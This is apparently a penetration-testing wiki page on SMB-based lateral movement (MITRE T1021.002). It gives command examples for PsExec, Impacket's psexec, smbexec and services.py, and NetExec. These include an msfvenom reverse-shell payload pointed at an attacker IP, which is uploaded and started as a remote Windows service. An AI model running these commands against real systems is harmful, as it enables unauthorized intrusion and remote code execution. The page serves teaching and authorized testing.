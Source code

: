 ```yaml
---
description: 'MITRE ATT&CK™ Remote Services: SMB/Windows Admin Shares - Technique T1021.002'
---
```


# SMB-based

## Theory

[SMB Protocol](../../network-pentesting/protocols/smb.md) can be abuse by attackers to execute remote code and perform lateral movements.

## Practice

### PsExec

Psexec is one of many Sysinternals Tools and can be downloaded [here](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec), It connect to the $ADMIN shares with SMB and upload a service binary. Psexec uses psexesvc.exe as the name. Then it connect to the service control manager to create and run a service named PSEXESVC associated with the previous binary. Finally Psexec create some named pipes to handle stdin/stdout/stderr.

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) can execute a remote process.

```bash
psexec.py username:password@10.10.10.10 cmd.exe
```

We may manually replicate techniques use by PsExec with [service.py](https://github.com/fortra/impacket/blob/master/examples/services.py) from impacket

```bash
# Create an exe as a service
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKING_IP> LPORT=<PORT> -f exe-service --platform windows -e x64/xor_dynamic  -o shell.exe

# Upload the exe to windows machine
smbclient '\\<TARGET>\smbshare' -U <user> -c "put shell.exe test.exe"

# Using impacket services.py create service remotely
services.py WORKGROUP/<user>@<TARGET> create -name shell-svc -display my-shell-svc -path "\\\\<TARGET>\\smbshare\\shell.exe"

# Using impacket services.py start the service and get the shell
services.py WORKGROUP/<user>@<TARGET> start -name shell-svc
```
{% endtab %}

{% tab title="Windows" %}
On windows, we can use [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) from Windows Sysinternals tools

```powershell
#Run PsExec
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```
{% endtab %}
{% endtabs %}

### SmbExec

SmbExec is an [Impacket](https://github.com/fortra/impacket) script that works similarly to PsExec without using RemComSvc. The main difference is that smbexec avoids transferring a potentially detectable binary to the target site. Instead, it lives completely off the land by running the local Windows command shell.\
implementation goes one step further, instantiating a local smbserver to receive the output of the commands. This is useful in the situation where the target machine **does NOT have a writeable share** available.

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) can execute a remote process.

```bash
#Semi-interactive shell (doesn't need writable share on the target)
smbexec.py <domain>/<username>:<password>@<host>
```
{% endtab %}
{% endtabs %}

### NetExec

You can utilize [NetExec](https://github.com/Pennyw0rth/NetExec) as a powerful alternative to SMBexec or PsExec for executing code over SMB connections. You can specify the execution methode and the shell interpretor (cmd or powershell.

{% tabs %}
{% tab title="UNIX-like" %}
[NetExec](https://github.com/Pennyw0rth/NetExec) can execute a remote process.

```bash
#Execute cmd command through smbexec method (methods: mmcexec,atexec,smbexec,wmiexec)
netexec smb <TARGET> -u <USER> -p <PASSWORD> --exec-method smbexec -x whoami

#Execute powershell command through atexec method (methods: mmcexec,atexec,smbexec,wmiexec)
netexec smb <TARGET> -u <USER> -p <PASSWORD> --exec-method atexec -X whoami

#Execute powershell (32bits) command through default wmiexec method (methods: mmcexec,atexec,smbexec,wmiexec)
netexec smb <TARGET> -u <USER> -p <PASSWORD> --force-ps32 -X whoami
```
{% endtab %}
{% endtabs %}
